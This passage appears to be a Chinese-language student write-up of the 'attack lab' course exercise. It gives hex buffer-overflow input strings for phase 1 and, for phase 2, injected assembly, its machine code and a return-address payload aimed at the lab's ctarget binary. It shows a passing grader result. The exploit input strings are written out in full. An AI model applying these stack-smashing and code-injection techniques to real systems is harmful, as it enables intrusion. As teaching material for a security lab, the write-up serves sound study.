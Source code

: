 ```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a0 16 40 00 00 00 00 00
```

转换后输入即可

```bash
Cookie: 0x63149380
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 A0 16 40 00 00 00 00 00
```

#### phase_2

第二关根据题意，需要调用touch2，需要传递一个无符号整数值，其值为cookie，查看cookie文件，如下。

```bash
2017211523@bupt3:~/target117$ cat cookie.txt 
0x63149380
```

为了给touch2传参，我们需要将cookie值赋给%rdi，然后将touch2地址压栈，使用ret弹出touch2地址返回，调用touch2。

```assembly
mov     $0x63149380,%rdi
pushq   $0x4016cc
ret
```

将其编译为二进制之后在反汇编，得到如下，由此我们便知指令的机器码是多少。

```assembly
phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 80 93 14 63    mov    $0x63149380,%rdi
   7:   68 cc 16 40 00          pushq  $0x4016cc
   c:   c3                      retq
```

我们将指令的机器码放在getbuf时的栈顶，然后将返回值位置设置为栈顶地址，这样既可达到目的，调用getbuf时栈顶地址为0x5566f7a8。

```bash
48 c7 c7 80 93 14 63 68
cc 16 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
a8 f7 66 55 00 00 00 00
```

